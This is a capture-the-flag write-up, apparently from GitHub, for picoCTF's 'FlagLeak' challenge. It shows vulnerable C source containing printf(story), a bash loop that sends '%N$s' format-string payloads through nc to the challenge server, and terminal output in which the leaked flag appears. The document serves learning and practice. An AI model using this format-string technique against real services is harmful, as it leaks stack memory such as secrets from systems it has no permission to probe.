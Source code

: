 # FlagLeak
flag : picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}

## My Approach :

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Asking ChatGPT to explain the code, I realised that there is a format string vulnerability. There is no "%s".          
I absolutely despise unnecessarily having to read long codes, so lemme just zoom in on the vulnerability.

![image](https://github.com/user-attachments/assets/91ac11b4-18b6-4037-adb6-f2f05bb3aaa5)          

A big hint is that the function is called "vuln". It also calls to readflag, so well, it reads the flag. Then it accepts an entry from the user, without a format specifier (VULNERABILITY!!!!!)

So, I used :
```
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 64582; done
```
to traverse thru the memory stack at various index positions until I found my flag.
- This loop tries %1$s, %2$s, and so on, as input to the program.
- When it reaches the index where the flag is stored, printf interprets it as a string and prints the flag.




## Terminal Output : 
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 64582; done
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
[�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
����
Tell me a story and then I'll tell you one >> Here's a story -
��e�

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
Tell me a story and then I'll tell you one >> Here's a story -
�J�
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$�
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
����������؉ǀ�u��^H�C�p��s��u��C
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
���9��p����m�������1����
Tell me a story and then I'll tell you one >> Here's a story -
������
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
��D���C�0�'�S)�@-/��q)�M$��y)�pV)��Э'�1/�
Tell me a story and then I'll tell you one >> Here's a story -
```
## What did I learn?

### 1. String vulnerabilities
- The program uses scanf("%127s", story) to accept your input into the story variable.
- Then it directly passes story to printf(story).
- Normally, printf expects format specifiers like %s or %d in its argument to interpret data correctly.
- By providing your own format specifiers (e.g., %x, %s), you gain control over what printf does.
  
### 2. How did I make use of this?

- When printf processes format specifiers, it accesses values from the memory stack.
- You can use %p to print raw pointers or %s to print strings at specific memory addresses.
- %i$s allows you to specify an index (i) to directly access a specific location on the stack and interpret it as a string.

  ### 3. Why %i$s Works.
%i$s is a positional format specifier in printf. It accesses the ith argument on the stack as a string.
By systematically testing indices, you find the one that corresponds to the memory location of the flag.

## Errors :
  None really, very simply asked ChatGPT to guide me thru the code for my terminal and to highlight where there might be a weak link in my source code.
